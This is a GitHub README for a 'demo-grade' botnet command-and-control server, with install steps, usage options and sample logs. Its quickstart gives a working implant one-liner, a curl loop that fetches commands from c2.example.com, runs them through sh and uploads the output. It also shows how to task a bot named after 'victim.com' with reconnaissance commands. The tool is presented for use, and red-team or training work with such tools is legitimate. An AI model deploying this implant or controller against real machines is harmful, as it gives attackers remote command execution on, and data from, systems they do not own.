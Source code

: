 demobotnetcontroller
====================
Demo-grade botnet controller

Features:
- Comms via HTTPS with a self-signed cert.
- Tasking and output via plaintext files.
- Bot-tracking via plaintext files' mtimes.
- Minimal documentation-caused confusion.
- Minimal distractions due to excessive (or any?) features.
- Exploit resistance via `pledge(2)` and `unveil(2)` (OpenBSD-only).
- Tests (probably mostly OpenBSD-only).
- ~Only tested~ Works well with curl in a loop.

For legal use only.

Quickstart
----------
1. Download/install
   ```sh
   go install github.com/magisterquis/demobotnetcontroller@latest
   ```
2. Start it going
   ```sh
   demobotnetcontroller -h # For good measure
   demobotnetcontroller
   ```
   We should see something like
   ```json
   {
           "time": "2025-10-31T01:52:03.556730378+01:00",
           "level": "INFO",
           "msg": "Server starting",
           "fingerprint": "Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE=",
           "address": "127.0.0.1:4433",
           "PID": 62063,
           "directory": "demobotnet",
           "prefix": "/bots/"
   }
   ```
3. TLS is self-signed.  Use the fingerprint and URL prefix from the first log
   message to roll an HTTPS/shell something, e.g.
   ```sh
   while :; do
   ( curl \
           --insecure \
           --max-time 10 \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           https://c2.example.com:4433/bots/$(hostname)-$$ |
   sh 2>&1 |
   curl \
           --insecure \
           --max-time 10 \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           --upload-file - \
           https://c2.example.com:4433/bots/$(hostname)-$$ ) &
   sleep 10
   done
   ```
   Last element of the path is the Implant ID, in this case a hostname and the
   script's PID.

   When it first calls back, we should see something like
   ```json
    {
            "time": "2025-11-01T15:34:31.848009955+01:00",
            "level": "INFO",
            "msg": "New ID",
            "request": {
                    "remote_address": "10.135.2.240:39398",
                    "method": "PUT",
                    "host": "c2.example.com:4433",
                    "request_uri": "/bots/victim.com-1234",
                    "user_agent": "curl/8.14.1"
            },
            "id": "victim-1234"
    }
   ```
4. Tasking and output are in the directory in the first log message.  Output
   is in a file with the same name as Implant IDs.  Tasking goes in a file with
   the same name plus `_task`.
   ```sh
   # Be in the directory with tasking and output.
   cd demobotnet
   # Give it the the sort of tasking one should give a new bot.
   echo 'ps awwwfux; uname -a; id' >> victim.com-1234_task
   # Watch for output
   tail -f victim.com-1234
   ```

Usage
-----
```
Usage: demobotnetcontroller [options]

Demo-grade botnet controller.

- Comms over HTTP, GET for tasking, POST/PUT for output.
- URL path must have the right prefix, last component is bot ID.
- IDs must be [A-Za-z0-9-.]+
- Tasking goes into files named after the bots' IDs plus _task.
- Output will go to files named after the bots' IDs.
- TLS Fingerprint (for --pinnedpubkey) is in _tls_fingerprint.

Options:
  -debug
    	Enable debug logging
  -dir directory
    	Bot tasking/output directory (default "demobotnet")
  -listen address
    	Listen address (default "0.0.0.0:4433")
  -max-runtime duration
    	Maximum run duration
  -prefix string
    	HTTP URL path prefix for bots (default "/bots")
  -request-timeout timeout
    	Per-request timeout (default 1m0s)
```

